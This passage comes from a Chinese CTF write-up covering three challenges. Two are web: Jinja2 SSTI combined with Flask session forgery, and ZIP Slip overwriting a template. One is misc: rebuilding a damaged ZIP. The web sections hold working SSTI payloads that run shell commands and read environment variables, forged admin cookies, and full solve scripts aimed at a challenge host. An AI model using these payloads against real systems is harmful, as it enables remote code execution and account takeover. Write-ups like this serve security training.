这时先做最基础的模板注入探测，向预览框提交 `{{7*7}}`。页面回显 `49`，说明输入内容确实被当作 Jinja2 模板执行，而不是只做字符串展示。既然 SSTI 已经成立，接下来就可以沿着 Flask 模板上下文继续拿信息。

题面提醒先找 `SECRET_KEY`，因此直接读取 Flask 配置：

```jinja2
{{config['SECRET_KEY']}}
```

回显结果是：

```text
dev-secret-key-change-me
```

这一点说明服务端把 `config` 暴露在模板上下文中，而且 session 很可能就是默认的 Flask 签名 cookie。于是顺着这条线，把普通用户的 session 结构还原后，伪造出一个 `role=admin` 的 cookie，再去访问 `/admin`。

不过这里有个很关键的转折。管理员面板虽然能进，但只显示了一个占位用的开发 flag：

```text
flag{dev_flag_change_me}
```

这个值显然不是比赛动态 flag。也就是说，题面给出的“拿管理员权限”更多是一个引导点，真正的关键还是 SSTI 自身。既然模板执行能力已经到手，最直接的做法就是继续从 Python 全局对象拿到 `os`，然后读取容器环境变量。GZCTF 一类环境里，动态 flag 往往会通过环境变量注入。

因此最终 payload 选择为：

```jinja2
{{cycler.__init__.__globals__.os.popen('env').read()}}
```

回显中可以直接看到：

```text
GZCTF_FLAG=flag{f3fdc514-b725-4f51-9361-e4ad30e0dc5b}
```

这就是真正需要提交的动态 flag。

#### 技术实施

先提交测试表达式确认 SSTI：

```jinja2
{{7*7}}
```

页面回显 `49`，如下图所示：



然后读取 Flask 的 `SECRET_KEY`：

```jinja2
{{config['SECRET_KEY']}}
```

返回值为：

```text
dev-secret-key-change-me
```

用这个密钥配合 Flask 默认 session 机制重新签名。普通用户 cookie 解码后结构如下：

```python
{'login_time': '2026-05-23T02:23:45.421673', 'role': 'user', 'username': 'tester'}
```

把其中的 `role` 改成 `admin`，`username` 改成 `admin`，再按 Flask 的默认参数签名：

```python
URLSafeTimedSerializer(
    secret_key=secret_key,
    salt="cookie-session",
    serializer=json,
    signer_kwargs={
        "key_derivation": "hmac",
        "digest_method": hashlib.sha1,
    },
)
```

伪造后的管理员 cookie 为：

```text
.eJyrVsrJT8_Miy_JzE1VslJQMjIwMtM1MNU1Mg4xMLIyMrYyMdUzMTI0MzdW0lFQKsrPAatKTMnNzAMJlBanFuUl5iIJ1gIAmq0WzQ.ahEQFA.Bnjqrw5fgRiA6ZU0hp_q8trbg78
```

带着这个 cookie 访问 `/admin` 可以进入管理员面板，但页面只显示开发占位 flag：


接着回到 SSTI 本体，直接通过模板拿到 `os.popen` 读取环境变量：

```jinja2
{{cycler.__init__.__globals__.os.popen('env').read()}}
```

页面回显中包含 `GZCTF_FLAG`，如下图所示：



#### 关键命令

```powershell
curl.exe -c outputs\cookies.txt -X POST "http://43.108.37.178:33055/login" -H "Content-Type: application/x-www-form-urlencoded" --data "username=tester"
curl.exe -b outputs\cookies.txt -X POST "http://43.108.37.178:33055/preview" -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "tpl={{7*7}}"
curl.exe -b outputs\cookies.txt -X POST "http://43.108.37.178:33055/preview" -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "tpl={{config['SECRET_KEY']}}"
curl.exe -b outputs\cookies.txt -X POST "http://43.108.37.178:33055/preview" -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "tpl={{cycler.__init__.__globals__.os.popen('env').read()}}"
python scripts\solve.py
```

#### 完整关键代码

```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import hashlib
import html
import json
import re
from datetime import datetime

import requests
from itsdangerous import URLSafeTimedSerializer


def extract_pre_block(text: str) -> str:
    match = re.search(r"<pre>(.*?)</pre>", text, re.S)
    if not match:
        raise ValueError("No <pre> block found in response")
    return html.unescape(match.group(1)).strip()


def preview(session: requests.Session, base_url: str, tpl: str) -> str:
    response = session.post(
        f"{base_url}/preview",
        data={"tpl": tpl},
        timeout=10,
    )
    response.raise_for_status()
    return extract_pre_block(response.text)


def forge_cookie(secret_key: str, payload: dict[str, str]) -> str:
    serializer = URLSafeTimedSerializer(
        secret_key=secret_key,
        salt="cookie-session",
        serializer=json,
        signer_kwargs={
            "key_derivation": "hmac",
            "digest_method": hashlib.sha1,
        },
    )
    return serializer.dumps(payload)


def main() -> None:
    parser = argparse.ArgumentParser(description="Solve Web_01.Space Notes")
    parser.add_argument(
        "--base-url",
        default="http://43.108.37.178:33055",
        help="Challenge base URL",
    )
    parser.add_argument(
        "--username",
        default="solver",
        help="Arbitrary login username",
    )
    args = parser.parse_args()

    session = requests.Session()

    login_response = session.post(
        f"{args.base_url}/login",
        data={"username": args.username},
        timeout=10,
    )
    login_response.raise_for_status()

    ssti_probe = preview(session, args.base_url, "{{7*7}}")
    if ssti_probe != "49":
        raise RuntimeError(f"SSTI probe failed, got: {ssti_probe!r}")

    secret_key = preview(session, args.base_url, "{{config['SECRET_KEY']}}")
    print(f"SECRET_KEY={secret_key}")

    forged_cookie = forge_cookie(
        secret_key,
        {
            "login_time": datetime.now().isoformat(),
            "role": "admin",
            "username": "admin",
        },
    )
    session.cookies.set("session", forged_cookie)

    admin_response = session.get(f"{args.base_url}/admin", timeout=10)
    admin_response.raise_for_status()
    admin_match = re.search(r"flag\\{[^}]+\\}", admin_response.text)
    if admin_match:
        print(f"ADMIN_PAGE_FLAG={admin_match.group(0)}")

    env_dump = preview(
        session,
        args.base_url,
        "{{cycler.__init__.__globals__.os.popen('env').read()}}",
    )

    flag_match = re.search(r"GZCTF_FLAG=(flag\\{[^}]+\\})", env_dump)
    if not flag_match:
        raise RuntimeError("GZCTF_FLAG not found in env dump")

    print(f"ADMIN_COOKIE={forged_cookie}")
    print(f"FLAG={flag_match.group(1)}")


if __name__ == "__main__":
    main()
```

#### 验证输出

保存的环境变量回显中，核心内容如下：

```text
GZCTF_USER_ID=019e4e56-8699-7baa-a0bd-702e1491ef76
GZCTF_FLAG=flag{f3fdc514-b725-4f51-9361-e4ad30e0dc5b}
GZCTF_GAME_ID=1
GZCTF_CHALLENGE_ID=1
GZCTF_TEAM_ID=22
```

这里可以同时确认两件事。其一，`/admin` 页面的 `flag{dev_flag_change_me}` 只是开发占位值。其二，真正比赛环境下的动态 flag 是通过 `GZCTF_FLAG` 注入容器，再被 SSTI 直接读出。

#### 知识点总结

这题最容易让人停下来的地方，是拿到 `SECRET_KEY` 之后过度沉迷于伪造管理员 session。这个动作本身没有错，而且确实能进入管理员面板，但如果页面里放的是占位 flag，就会把思路带偏。

真正应该抓住的是 SSTI 的权限边界。只要 Jinja2 模板执行成立，目标就不再局限于页面逻辑，而是整个 Flask 运行环境。对于 CTF 平台容器题，环境变量、配置对象、运行目录和进程上下文都值得检查。很多动态 flag 都不在 HTML 模板里，而是在环境变量中等待被读出。

#### 最终 flag

```text
flag{f3fdc514-b725-4f51-9361-e4ad30e0dc5b}
```

### Web_02.Zero Upload / 零重力主题包

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Web |
| 题目名称 | Web_02.Zero Upload / 零重力主题包 |
| 附件 | player_zero_upload.zip |
| 附件 SHA256 | 131FA5FA4FCBDB372079E683F1FA06870F00C9C4B9165A10BB429EF9A5F9AD8E |
| 靶机 | `http://43.108.37.178:33072` |
| Flag 格式 | flag{...} |

题面说 ZeroG 空间站上线了一个照片墙系统，除了上传轨道照片，还支持上传 ZIP 主题包来自定义卡片样式。开发者强调主题包只是一些 HTML 片段和资源文件，看起来像是在提示“解压不会有危险”，而 Fen 留下的那句“压缩包里的路径，也许不只通向解压目录”几乎已经把突破方向直接指向了 ZIP 路径穿越。

#### 解题思路

白盒代码只有一个很小的 Flask 应用，最值得先看的自然是主题包上传接口。题目既然主动提到 ZIP 包路径问题，就没有必要在普通图片上传、文件读取或其他路由上绕远路。

在 `upload_theme()` 中，服务端会把上传的 ZIP 保存到 `themes/<theme_id>/package.zip`，然后逐个成员手工解压。关键代码如下：

```python
with zipfile.ZipFile(zip_path, "r") as zf:
    for member in zf.infolist():
        target_path = extract_root / member.filename

        if member.is_dir():
            target_path.mkdir(parents=True, exist_ok=True)
            continue

        target_path.parent.mkdir(parents=True, exist_ok=True)

        with zf.open(member, "r") as src, open(target_path, "wb") as dst:
            dst.write(src.read())
```

这里直接把 `member.filename` 拼到了 `extract_root` 后面，却没有检查 `../`。因此只要在 ZIP 里放一个名字像 `../../templates/theme/card.html` 的文件，解压时就会跳出 `themes/<theme_id>/`，覆盖应用真实的模板文件。这就是标准的 ZIP Slip。

再看 `gallery.html`：

```jinja2

    

```

也就是说，只要能覆盖 `templates/theme/card.html`，访问 `/gallery` 时服务端就会渲染我们写进去的模板内容。题目的文件覆盖立刻升级成了服务端模板注入能力。

#### 技术实施

第一步先构造一个恶意主题包，内部只放一个文件：

```text
../../templates/theme/card.html
```

一开始最自然的想法，是直接读取源码里暴露的配置：

```python
app.config["ZEROG_FLAG"] = FLAG
```

于是先把模板内容写成：

```jinja2
{{ config['ZEROG_FLAG'] }}
```

上传后访问 `/gallery`，页面里确实会出现一个 `flag{...}`，但内容是：

```text
flag{dev_zero_upload_flag}
```

这看起来像 flag，却明显更像开发占位值。说明题目这里埋了一个小坑：源码里的 `ZEROG_FLAG` 并不是平台实际注入的比赛 flag。

既然已经拿到了模板覆盖，而且 Jinja 会在服务端执行，那就没必要停留在应用配置层。继续沿着 Jinja 对象链探测执行能力，使用：

```jinja2
{{ cycler.__init__.__globals__.os.popen("env | sort").read() }}
```

访问 `/gallery` 后，页面直接回显进程环境变量，其中明确出现：

```text
GZCTF_FLAG=flag{59b65f15-3ec3-41ab-804a-76eb2cfde6a5}
```

这说明真实动态 flag 来自平台注入的 `GZCTF_FLAG` 环境变量，而不是源码中为了本地开发设置的 `ZEROG_FLAG`。于是最终恶意模板只需要直接读取真正的环境变量：

```jinja2
{{ cycler.__init__.__globals__.os.environ['GZCTF_FLAG'] }}
```

再次上传主题包并访问 `/gallery`，页面就会稳定渲染出真实 flag。

#### 关键命令

最终复现只需要运行脚本：

```powershell
python scripts\solve.py
```

如果要手工概括整条利用链，本质上就是：

```text
1. 上传 ZIP，文件名为 ../../templates/theme/card.html
2. 文件内容写为 {{ cycler.__init__.__globals__.os.environ['GZCTF_FLAG'] }}
3. 访问 /gallery，读取渲染结果中的 flag
```

#### 完整关键代码

```python
import io
import re
import warnings
import zipfile

warnings.filterwarnings(
    "ignore",
    message=r"urllib3 .* doesn't match a supported version!",
)

import requests


BASE_URL = "http://43.108.37.178:33072"
PAYLOAD_NAME = "../../templates/theme/card.html"
PAYLOAD_BODY = "{{ cycler.__init__.__globals__.os.environ['GZCTF_FLAG'] }}"


def build_zip_bytes() -> bytes:
    buf = io.BytesIO()
    with zipfile.ZipFile(buf, "w", zipfile.ZIP_DEFLATED) as zf:
        zf.writestr(PAYLOAD_NAME, PAYLOAD_BODY)
    return buf.getvalue()


def main():
    session = requests.Session()

    zip_data = build_zip_bytes()
    files = {
        "theme": ("zerog-theme.zip", zip_data, "application/zip"),
    }
    resp = session.post(f"{BASE_URL}/theme/upload", files=files, timeout=10)
    if resp.status_code not in (200, 302):
        raise RuntimeError(f"theme upload failed: {resp.status_code}")

    gallery = session.get(f"{BASE_URL}/gallery", timeout=10)
    match = re.search(r"flag\{[^}]+\}", gallery.text)
    if not match:
        raise RuntimeError("flag not found in gallery response")

    print(match.group(0))


if __name__ == "__main__":
    main()
```

#### 验证输出

运行脚本得到：

```text
flag{59b65f15-3ec3-41ab-804a-76eb2cfde6a5}
```

为了确认没有被源码里的开发假 flag 误导，还额外上传了环境变量探测模板：

```jinja2
{{ cycler.__init__.__globals__.os.popen("env | sort").read() }}
```

响应中可以直接看到：

```text
GZCTF_FLAG=flag{59b65f15-3ec3-41ab-804a-76eb2cfde6a5}
```

这一步把“模板覆盖成功”与“真实比赛 flag 来源”都交叉验证清楚了。

#### 知识点总结

这题的第一层考点是很标准的 ZIP Slip。只要服务端在解压 ZIP 时直接信任成员文件名，攻击者就能利用 `../` 路径穿越把文件写到预期目录之外。

真正让题目完整起来的，是第二层的模板覆盖。这里被覆盖的目标不是普通静态文件，而是 Jinja 模板 `templates/theme/card.html`。一旦目标模板会被服务端主动 `include`，文件覆盖的危害就不再只是页面篡改，而会进一步升级成 SSTI 或至少是服务端模板内容注入。

最后一个容易踩坑的点，是源码里那条看起来很像真答案的 `ZEROG_FLAG`。比赛平台往往会在容器运行时通过环境变量注入真实 flag，这类场景里既要相信白盒线索，也要对“过于顺手的 flag”保持一点警觉。拿到模板执行能力以后，直接看运行时环境，比停留在源码默认值上更稳。

#### 最终 flag

```text
flag{59b65f15-3ec3-41ab-804a-76eb2cfde6a5}
```

### Misc_03.Blackbox Telemetry / 黑匣子遥测

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Misc |
| 题目名称 | Misc_03.Blackbox Telemetry / 黑匣子遥测 |
| 题面 | ZeroG 空间站在一次微重力实验后出现短暂通信中断。Pwnstars 实验室从损坏的黑匣子中恢复出了 `blackbox.db`、`events.log`、`fragment.bin` 三份文件，需要按正确时间线重排碎片，并用任务名开箱恢复最终 flag。 |
| 附件 | `player_blackbox_telemetry.zip` |
| Flag 格式 | `flag{...}` 或 `Pwnsatrs{...}` |
| 附件 SHA256 | `C222A1751C8AC2DEAC756F859B1CAC349E853E9DC3D96275008A7798DBDEA87A` |

#### 解题思路

附件解开后有 `blackbox.db`、`events.log`、`fragment.bin` 和 `README.txt`。题面已经把方向说得很清楚：数据库里有遥测帧，日志能判断真正顺序，ZIP 可能缺少末尾目录但本地文件头足够提取。

先看日志，里面明确提示数据库时间戳不可靠，并且给出了真正应该采用的帧顺序：

```text
ACCEPT frame_id=ZG-FRAME-7A status=ok seq=00
ACCEPT frame_id=ZG-FRAME-1C status=ok seq=01
ACCEPT frame_id=ZG-FRAME-9F status=ok seq=02
ACCEPT frame_id=ZG-FRAME-4B status=ok seq=03
ACCEPT frame_id=ZG-FRAME-2E status=ok seq=04
ACCEPT frame_id=ZG-FRAME-8D status=ok seq=05
```

同时日志中还藏着两个关键值：

```text
archive password partA=timeline
repair missing_offset=177 missing_length=32
archive password partB=-0427
```

因此解题路线就变成：按日志 `seq` 重排数据库中的 payload，逐个做 `base64+zlib` 解码，拼出损坏 ZIP；再用 `fragment.bin` 在 offset 177 处替换缺失的 32 字节；最后从修复后的 ZIP 本地文件头提取内容。

#### 技术实施

数据库 `telemetry` 表包含 `frame_id`、`timestamp`、`encoding`、`payload`、`crc32` 和 `comment`。虽然表内有 timestamp，但日志已说明这些时间戳不可靠，所以不能按数据库时间排序。

按 `events.log` 的 `ACCEPT` 顺序读取 payload 后，先 base64 解码，再 zlib 解压。解出的第一段以 `PK\x03\x04` 开头，说明确实是 ZIP 的 local file header。

拼接后得到一个损坏 ZIP。这里最容易出错的点是 `missing_offset=177 missing_length=32` 的含义：它不是“在 177 处插入 32 字节”，而是“177 处原本缺失或损坏的 32 字节需要由 fragment 替换”。如果做插入，后面的本地文件头会被整体推后，`NOTE.txt` 会 CRC 错误。

正确修复方式如下：

```python
repaired_zip = damaged_zip[:177] + fragment + damaged_zip[177 + len(fragment):]
```

修复后的 ZIP 没有中央目录，所以普通 `unzip` 无法正常按目录列出。但 local file header 中包含文件名、压缩方式、压缩大小、原始大小和 CRC，足够手工解析。最终提取出两个文件：

```text
NOTE.txt
enc_flag.bin
```

`NOTE.txt` 给出了最后一步的密钥派生方式：

```text
key = sha256(mission_name + "::" + archive_password + "::Pwnstars")
```

其中 `Mission` 为 `ZeroG-First-Launch`，日志里的两个片段拼起来得到 `archive_password=timeline-0427`。对 `enc_flag.bin` 使用 SHA256 派生出的 32 字节 key 循环异或，即可得到明文 flag。

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x -y player_blackbox_telemetry.zip -oevidence
python .\scripts\solve_blackbox_telemetry.py
```

#### 完整关键代码

```python
import base64
import binascii
import hashlib
import pathlib
import re
import sqlite3
import struct
import zlib


CASE_DIR = pathlib.Path(__file__).resolve().parents[1]
EVIDENCE_DIR = CASE_DIR / "evidence" / "blackbox_telemetry"
OUTPUT_DIR = CASE_DIR / "outputs"


def parse_local_zip(blob: bytes) -> dict[str, bytes]:
    files = {}
    off = 0
    while True:
        sig = blob.find(b"PK\x03\x04", off)
        if sig < 0:
            break
        fields = struct.unpack_from("<IHHHHHIIIHH", blob, sig)
        _, _, _, method, _, _, crc32, comp_size, _, name_len, extra_len = fields
        name_start = sig + 30
        name = blob[name_start:name_start + name_len].decode()
        data_start = name_start + name_len + extra_len
        comp = blob[data_start:data_start + comp_size]
        if method == 8:
            data = zlib.decompress(comp, -15)
        elif method == 0:
            data = comp
        else:
            raise ValueError(f"unsupported ZIP method {method} for {name}")
        if (binascii.crc32(data) & 0xFFFFFFFF) != crc32:
            raise ValueError(f"CRC mismatch for {name}")
        files[name] = data
        off = data_start + comp_size
    return files


def main() -> None:
    db_path = EVIDENCE_DIR / "blackbox.db"
    log_text = (EVIDENCE_DIR / "events.log").read_text(encoding="utf-8")
    fragment = (EVIDENCE_DIR / "fragment.bin").read_bytes()

    con = sqlite3.connect(db_path)
    rows = {
        frame_id: payload
        for frame_id, payload in con.execute("select frame_id, payload from telemetry")
    }

    accepted = []
    for match in re.finditer(r"ACCEPT frame_id=(\S+) status=ok seq=(\d+)", log_text):
        accepted.append((int(match.group(2)), match.group(1)))
    accepted.sort()

    chunks = []
    for _, frame_id in accepted:
        raw = base64.b64decode(rows[frame_id])
        chunks.append(zlib.decompress(raw))

    damaged_zip = b"".join(chunks)
    repaired_zip = damaged_zip[:177] + fragment + damaged_zip[177 + len(fragment):]
    OUTPUT_DIR.mkdir(exist_ok=True)
    (OUTPUT_DIR / "recovered_replace.zip").write_bytes(repaired_zip)

    files = parse_local_zip(repaired_zip)
    note = files["NOTE.txt"].decode()
    enc_flag = files["enc_flag.bin"]

    mission = re.search(r"Mission\s*:\s*(\S+)", note).group(1)
    part_a = re.search(r"partA=([^\s]+)", log_text).group(1)
    part_b = re.search(r"partB=([^\s]+)", log_text).group(1)
    archive_password = part_a + part_b

    key_material = f"{mission}::{archive_password}::Pwnstars"
    key = hashlib.sha256(key_material.encode()).digest()
    flag = bytes(c ^ key[i % len(key)] for i, c in enumerate(enc_flag)).decode()
    print(flag)


if __name__ == "__main__":
    main()
```

#### 验证输出

运行复现脚本后输出：

```text
flag{ZeroG_blackbox_timeline_recovered}
```

脚本同时会校验 local file header 中记录的 CRC。如果修复 ZIP 时误把 `fragment.bin` 插入而不是替换，`NOTE.txt` 的 CRC 会对不上；当前脚本能稳定通过 CRC 校验并输出 flag，说明时间线重排、缺失片段修复和解密链路都是闭合的。

#### 知识点总结

这题的核心是把“时间线”和“文件结构”分开处理。数据库 timestamp 是干扰项，真正顺序来自日志 `ACCEPT seq`；ZIP 中央目录缺失也不是终点，因为 local file header 本身就保存了足够的提取信息。

处理损坏 ZIP 时要注意 offset 提示的语义。题目说缺失 offset 和 length 时，通常应优先理解为指定范围被损坏，需要用恢复片段替换；只有当长度变化能被其他结构证实时，才考虑插入。

最后的加密部分没有必要猜算法。`NOTE.txt` 已经给出 KDF，密文长度与 flag 长度一致，直接用 SHA256 结果循环异或即可得到可读 flag。

#### 最终 flag

```text
flag{ZeroG_blackbox_timeline_recovered}
```
